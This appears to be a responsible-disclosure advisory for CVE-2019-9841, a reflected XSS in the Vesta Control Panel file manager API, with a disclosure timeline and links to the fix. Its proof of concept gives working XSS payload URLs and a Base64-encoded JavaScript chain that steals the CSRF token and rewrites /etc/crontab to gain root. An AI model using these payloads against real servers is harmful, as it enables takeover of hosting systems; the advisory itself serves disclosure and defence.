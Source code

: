 ```yaml
---
title: '[CVE-2019-9841] Vesta Control Panel 0.9.8-23 — Reflected XSS in file manager API'
tags: [CVE, Vesta Control Panel, XSS]
---
```


|||
|--------------------:+----------------------------------------------------------|
|      **Discovered** | 2019-03-13                                               |
|          **Author** | [{{ site.author.name }}](mailto:{{ site.author.email }}) |
|         **Product** | [Vesta Control Panel](https://vestacp.com/)              |
| **Tested versions** | 0.9.8-23                                                 |
|       **CVE entry** | [CVE-2019-9841][cve]                                     |
|---------------------+----------------------------------------------------------|
{:#advisory-header}

## Abstract

The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application. This allows an attacker to impersonate the users of the control panel by tricking them to follow a specially crafted link while authenticated to the web application.

VestaCP users are actual system users and they have the right to manage several services on the hosting server, for example they can create and manage new databases, edit their own crontab, create and manage new mail accounts, etc. They are created by the administrator to whom VestaCP grants full access. This means that triggering the XSS from an administration session could allow an attacker to obtain root access on the hosting server.

## Details

A PHP script located at `/file_manager/fm_api.php` supposedly provides the API for the file managers plugins that can be installed in VestaCP. The script performs the requested operation then returns the result as a JSON string using `text/html` as the content type, often including an error message that reflects some of the provided arguments. By triggering an error using arguments that include a specially crafted HTTP payload it is possible to run arbitrary JavaScript code. For example:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=alert(1)+/>
```

Produces:

```json
{"result":false,"message":"Error: invalid path \/home\/admin\/<img src=x onerror=alert(1) \/>"}
```

Since the output is a JSON string, some characters are `\`-escaped. It is possible to overcome this limitation by deploying the payload as a Base64 string, for example the above is equivalent to:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('YWxlcnQoMSk='))+/>
```

This works out-of-the-box with Firefox and Edge, while Safari and Chrome block the script execution as they detect a possible XSS attempt. Hopefully some smarter payload will be able to bypass their XSS auditors.

## PoC: from XSS to root access

VestaCP acts as a wrapper around several system-level operations, the easiest way for an administrator to run a command as `root` is probably to alter the `/etc/crontab` file via the `/edit/server/cron/` page.

For example this cron job creates a file in the web server root as superuser:

```
* * * * * root id >/usr/local/vesta/web/proof
```

Most of the pages in the VestaCP web application employ a CSRF token, so in order to submit the POST form, the token must be obtained by parsing the HTML.

The following JavaScript function replaces `/etc/crontab` and restarts the cron daemon:

```js
(async () => {
    // fetch the CSRF token
    const request = await fetch('/', {credentials: 'include'});
    const text = await request.text();
    const token = text.match(/token="([^"]+)"/)[1];

    // prepare the payload
    const payload = 'id >/usr/local/vesta/web/proof';
    const config = encodeURIComponent(`* * * * * root ${payload}\n`);

    // replace the cron config file
    fetch('/edit/server/cron/', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'content-type': 'application/x-www-form-urlencoded'
        },
        body: `token=${token}&v_config=${config}&v_restart=on&save=Save`
    });
})();
```

For completeness, this is the URL that the victim administrator needs to follow in order to trigger the PoC:

<!-- C-u M-| terser | base64 -w0 | sed 's/+/%2b/g' -->

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('KGFzeW5jKCk9Pntjb25zdCByZXF1ZXN0PWF3YWl0IGZldGNoKCIvIix7Y3JlZGVudGlhbHM6ImluY2x1ZGUifSk7Y29uc3QgdGV4dD1hd2FpdCByZXF1ZXN0LnRleHQoKTtjb25zdCB0b2tlbj10ZXh0Lm1hdGNoKC90b2tlbj0iKFteIl0rKSIvKVsxXTtjb25zdCBwYXlsb2FkPSJpZCA%2bL3Vzci9sb2NhbC92ZXN0YS93ZWIvcHJvb2YiO2NvbnN0IGNvbmZpZz1lbmNvZGVVUklDb21wb25lbnQoYCogKiAqICogKiByb290ICR7cGF5bG9hZH1cbmApO2ZldGNoKCIvZWRpdC9zZXJ2ZXIvY3Jvbi8iLHtjcmVkZW50aWFsczoiaW5jbHVkZSIsbWV0aG9kOiJQT1NUIixoZWFkZXJzOnsiY29udGVudC10eXBlIjoiYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIn0sYm9keTpgdG9rZW49JHt0b2tlbn0mdl9jb25maWc9JHtjb25maWd9JnZfcmVzdGFydD1vbiZzYXZlPVNhdmVgfSl9KSgpOwo='))+/>
```

After one minute check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

## Timeline

2019-03-15
: Disclosed to the VestaCP team.

2019-03-15
: MITRE assigns [CVE-2019-9841][cve] to this vulnerability.

2019-04-12
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/c28c5d29a3c61bc8110c11349e3f2309cd537cfa) the vulnerability.

2019-04-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/e674bf14fd401f419223f1dd06a6e381a3c188a2) version 0.9.8-24.

[cve]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9841
